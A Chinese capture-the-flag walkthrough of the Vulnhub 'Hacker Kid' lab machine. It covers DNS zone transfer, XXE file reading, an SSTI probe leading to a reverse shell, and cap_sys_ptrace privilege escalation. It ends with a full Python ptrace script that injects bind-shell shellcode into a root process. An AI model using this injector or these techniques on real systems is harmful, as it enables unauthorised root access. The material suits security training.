Vulnhub-HACKER KID: 1.0.1靶场实践

- - -

# Vulnhub-HACKER KID: 1.0.1靶场实践

## 环境

靶机下载：[https://www.vulnhub.com/entry/hacker-kid-101,719/](https://www.vulnhub.com/entry/hacker-kid-101,719/)

**描述**：This box is OSCP style and focused on enumeration with easy exploitation.The goal is to get root.No guessing or heavy bruteforce is required and proper hints are given at each step to move ahead.

## 主机发现

```plain
arp-scan -l
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161240-0bfc0908-9cb4-1.png)

靶机的IP地址为192.168.84.130

## 信息收集

扫描端口

```plain
nmap -p- -Pn -sT -sV 192.168.84.130
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161305-1b28074c-9cb4-1.png)

开放80端口，扫描目录并没有发现可有信息，查看首页源码，发现存在注释提示，需要page\_on参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161339-2f6706d6-9cb4-1.png)

加上page\_on参数，红字提示深度不够，猜测需要对page\_on爆破，应该存在一个正确值

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161353-3753ce10-9cb4-1.png)

使用bp对page\_on爆破,得到一个长度不一致的响应包，即page\_on=21时。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161405-3ee61a70-9cb4-1.png)

文字提示创建了很多子域名，hackers.blackhat.local就是其中一个

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161414-43dec2a2-9cb4-1.png)

在hosts文件中添加IP与域名对应记录，使用[http://hackers.blackhat.com依然能够访问主页](http://hackers.blackhat.xn--com-j88d76dj10any3bhn0ahiu4ixnlg/)

## DIG

主页疯狂提示DIG me，估计跟dig工具有关，同时与域名联系在一起，涉及DNS区域传送的知识

nmap使用TCP与UDP详细扫描53端口

```plain
nmap -p53 -sU -sT 192.168.84.130
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161448-5848efe2-9cb4-1.png)

同时开放TCP和UDP端口，可知TCP端口用于区域DNS传送

使用dig命令查询域名信息

```plain
dig axfr @192.168.84.130 blackhat.local
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161502-60bcc266-9cb4-1.png)

将上述显示的域名添加到hosts文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161511-664eb2de-9cb4-1.png)

## XXE

访问hackerkid.blackhat.local域名，尝试创建一个用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161519-6ac4d924-9cb4-1.png)

但是无论邮箱是否正确都创建不成功，并显示邮箱不可用，bp抓包分析，POST提交的数据是xml，验证是否存在XXE漏洞并利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161526-6f066a5c-9cb4-1.png)

发现一个可利用用户saket，尝试读取.bashrc配置文件,结果无法读取，使用php://filter读取

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161536-74c31da0-9cb4-1.png)

base64解码可得账户和密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161545-7a49a15e-9cb4-1.png)

还记得端口扫描中显示开放了9999端口，使用用户名和密码进行登录，经尝试，这里的用户名需要使用saket才能成功登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161557-8185f21a-9cb4-1.png)

登录成功后，提示需要输入名字，尝试加入name参数，经验证，name参数处存在SSIT漏洞，构造反弹shell的payload，并进行url编码

SSTI注入漏洞验证通用payload：`{{1+abcxyz}}${1+abcxyz}<%1+abcxyz%>[abcxyz]`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161607-87250c92-9cb4-1.png)

kali linux监听4444端口，成功接收到弹回的shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161615-8bfe7c80-9cb4-1.png)

## Capabilitie提权

查找设置过capabilitie的应用程序

```plain
/sbin/getcap -r / 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161631-95e51466-9cb4-1.png)

这里选择python2.7进行提权，现在需要选择一个以root权限运行的程序，命令查询：

```plain
ps -aux | grep root
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161640-9af295d2-9cb4-1.png)

选择id为1012的apache进程，下载注入exp并执行

```plain
python2.7 inject.py 1012
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161649-a03c8ef8-9cb4-1.png)

执行后靶机会开启5600端口后门，使用kali nc连接该端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161657-a57de2b8-9cb4-1.png)

成功获取root权限

## 知识点

-   Capabilitie提权
    
    [Linux提权之：利用capabilities提权 - f\_carey - 博客园 (cnblogs.com)](https://www.cnblogs.com/f-carey/p/16026088.html)
    
-   DNS主从复制+区域传送
    
    **DNS在区域传输的时候使用TCP协议，其他时候使用UDP协议**
    
    DNS区域传送有两种方式：
    
    -   axfr：完全区域传送
        
    -   ixfr：增量区域传送
        
    
    [DNS主从复制及区域传送 - 风住 - 博客园 (cnblogs.com)](https://www.cnblogs.com/whych/p/9103161.html)
    

## exp

```plain
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):

  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)

  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
